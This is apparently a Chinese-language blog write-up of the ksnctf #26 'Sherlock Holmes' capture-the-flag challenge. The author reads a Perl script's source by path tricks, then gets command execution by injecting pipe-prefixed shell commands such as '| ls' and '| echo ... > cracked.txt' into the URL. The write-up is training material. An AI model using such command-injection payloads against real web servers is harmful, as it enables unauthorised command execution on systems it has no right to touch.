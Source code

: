 ```yaml
---
title: 'ksnctf #26 Sherlock Holmes'
metaAlignment: center
coverMeta: out
thumbnailImagePosition: left
date: 2017-03-28 14:06:03
categories:
	- Writeups
	- ksnctf
thumbnailImage: ksnctf.png
keywords:
    - ksnctf
    - Sherlock Holmes
tags:
    - Writeups
---
```

只要看的到原始碼就無敵了～
<!-- more -->

題目網頁明顯是perl寫的，就三個連結都可以一一點開，可以發現URL的部份會後綴檔案名稱，例如：
{% blockquote %}
http://ctfq.sweetduet.info:10080/~q26/index.pl/a_scandal_in_bohemia_1.txt
{% endblockquote %}

那如果後綴就是自己呢？ {% raw %}ლ(◉◞౪◟◉ )ლ{% endraw %}

於是...
{% blockquote %}
http://ctfq.sweetduet.info:10080/~q26/index.pl/index.pl
{% endblockquote %}
就看到原始碼啦～～
不過當然不可能這麼簡單，還有一個關卡要解。

其中只有一段原始碼是重點：

{% codeblock lang:perl %}
# Can you crack me? :P
open(F,'cracked.txt');
my $t = <F>;
chomp($t);
if ($t eq 'h@ck3d!') {
print 'FLAG_****************<br><br>';
}
unlink('cracked.txt');
####
{% endcodeblock %}

雖然我沒有寫過perl的經驗，但是看一看大概還是可以知道它是要開啟`cracked.txt`這個檔案，如果檔案內容是`h@ck3d!`的話就會印出FLAG。

看了看其他地方應該沒有什麼眉腳，把焦點放回到URL上，說到URL攻擊大概就是URL injection了，既然perl本身也是個script，應該可以成功呼叫系統命令。馬上嘗試簡單的`| ls`(有經過URL encode)：

{% blockquote %}
http://ctfq.sweetduet.info:10080/~q26/index.pl/%7C%20ls
{% endblockquote %}

結果很明顯，URL injection成功被執行了。
![URL](1.png)

原本想說看到`flag.txt`就在目錄底下，會不會下個`| cat flag.txt`破台了，結果果然沒有這麼簡單 {% raw %}(´_ゝ`){% endraw %}
![URL02](2.png)

還是得回歸`index.pl`的那段原始碼，不過已知URL injection可行的情況下，可以很輕易的建立`| echo "h@ck3d!" > cracked.txt`：
{% blockquote %}
http://ctfq.sweetduet.info:10080/~q26/index.pl/%7C%20echo%20%22h%40ck3d!%22%20%3E%20cracked.txt
{% endblockquote %}

執行以後，`cracked.txt`就成功被建立在目錄底下，只要再任意點選其他的一個連結，那段原始碼就會被執行並印出FLAG～～
![URL03](3.png)